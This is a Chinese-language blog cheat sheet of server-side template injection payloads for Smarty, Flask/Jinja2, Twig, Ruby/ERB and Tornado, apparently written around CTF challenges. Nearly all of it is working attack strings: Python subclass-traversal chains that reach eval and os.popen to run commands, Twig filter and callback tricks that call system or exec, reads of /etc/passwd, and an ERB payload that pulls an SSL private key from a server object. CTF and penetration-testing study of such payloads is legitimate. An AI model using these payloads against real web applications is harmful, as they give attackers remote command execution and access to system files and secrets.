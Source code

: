 ```yaml
---
title: 模板注入常见payload
date: 2020-04-23 09:42:21
updated: 2020-04-23 09:42:21
categories: web
---
```


模板(smart、Flask、jinjia2、TWIG、Ruby/ERB、tornado)注入常见payload<!--more-->

![](https://img.npfs06.top/20210306094545.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



## smarty注入payload

{if phpinfo()}{/if}
{if system('ls')}{/if}
{ readfile('/flag') }
{if show_source('/flag')}{/if}
{if system('cat ../../../flag')}{/if} 

{system('cat /flag')}
Smarty支持使用{php}{/php}标签来执行被包裹其中的php指令

---

* ().__class__.__bases__ [0] .__subclasses__() [40] (r'/etc/passwd').read()
* ().__class__.__bases__ [0] .__subclasses__() [59] .__init__.func_globals.values() [13]\['eval']('__import__("os").popen("ls /").read()' )

---



于是把id换成`ls -a`这里一定要`-a`，本来开局我就拿到了shell，但是因为没有加`-a`，于是没有想到flag在上目级录

执行`{{ b['eval'] ('__import__("os").popen(""cat ../flag"").read()') }}`



## FLASK

```
().__class__.__bases__[0].__subclasses__() 
---查看可用模块

().__class__.base__.__subclasses__().index(warnings.catch_warnings)
可以查看当前位置，不过题目环境不能用。手动数吧= = 169位

{{().__class__.__bases__[0].__subclasses__()[169].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")}}

 {{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls /').read()")}}
发现可以执行，构造命令

{{''.__class__.__mro__[1].__subclasses__()
[169].__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag').read()")}}
没有什么过滤= =友好!

```

```
或者找到os._wrap_close模块 117个
{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('dir').read()}}  

当前文件夹

{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('cat /flag').read()}}
来打开文件，payload有很多慢慢摸索慢慢积累= =

```

```
内含os模块的类 class'site._Printer'   （不需要import os）
       a. 目录查询
        {{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}
        因为这里listdir同样被ban了
      b.  读取目录flasklight
        {{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls /flasklight').read()}}
       c. 读取flag
        {{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat coomme_geeeett_youur_flek').read()}}
```



## jinjia2

```
测试：  {{7*'7'}}  #输出7777777
{% if 1 %}1{% endif %}
```

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag').read()") }}{% endif %}{% endfor %}
```


```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('<command>').read()") }}{% endif %}{% endfor %}
```
直接注入

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__im'+'port__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}
```

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt').read()}}{% endif %}{% endfor %}
```





## TWIG

```
测试： {{7*'7'}}  #输出49
测试：  {#comment#}{{7*7}}   #输出49
这里{#comment#}是twig独有的注释符
```

![](https://img.npfs06.top/20210306094611.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

```

{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
rce

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

{{['cat /etc/passwd']|filter('system')}}

POST /subscribe?0=cat+/etc/passwd HTTP/1.1
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
```





##   Ruby/ERB

<%=语法可以用来执行Ruby语句，并会尝试将结果转换为字符串，以附在最终的结果文本中。我们可以使用如下攻击载荷来尝试执行数学运算：

```
ruby <%= 7 * 7 %>
ruby <%= File.open(‘/etc/passwd’).read %>
ruby <%= self %>    //枚举该对象可用的属性及方法
ruby <%= self.class.name %>   //获取self对象的类名
ruby <%= self.methods %>
ruby <%= self.method(:handle_POST).parameters %>  //获取目标所需的具体参数
ruby <%= session.class.name %>
ruby <%= self.instance_variables %>
ruby <% ssl=@server.instance_variable_get(:@ssl_context) %><%= ssl.instance_variables %>
ruby <% ssl = @server.instance_variable_get(:@ssl_context) %><%= ssl.instance_variable_get(:@key) %>   //提取key值
```





## Tornado

参考链接：https://www.anquanke.com/post/id/244153#h2-4

```
{{xxx}}
{%xxx%}
{#xxx#}

//其中{##}是注释用的，里面的语句不会被执行，而{{}}与{%%}则可以被用来执行命令。
```

```
首先是{{}}，这个标签可以说是非常危险，因为它里面可以执行任意的python函数，比如eval函数{{eval("xxx")}}
```

<img src="http://img.npfs06.top/20210723103123.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />

```
除了python中的内置函数可以被调用外，还有一些tornado自带的原生类也可以被用来命令执行，可以使用{{globals()}}来查看所有可用的全局变量，如下图所示。
```

<img src="http://img.npfs06.top/20210723103149.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />

具体有哪些全局变量可以用，哪些变量可以被用来执行命令，各位大佬可以研究研究，我就不列举了。

`{%%}`是`tornado`的另一个标签，它里面的语句受到限制，格式为`{%操作名 参数%}`，操作名在`tornado`的源码中进行了规定，具体源码在`tornado`库中的`template.py`中，以下为从源码中总结出来的所有操作名。

```
apply、autoescape、block、comment、extends、for、from、if、import、include、module、raw、set、try、while、whitespace
```

具体操作的意义请自行阅读源码，本文不再赘述，唯独介绍一下`raw` 操作，该操作可以执行原生的python代码。

<img src="http://img.npfs06.top/20210723103221.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />

懂我意思吧.jpg，各种python黑魔法走起
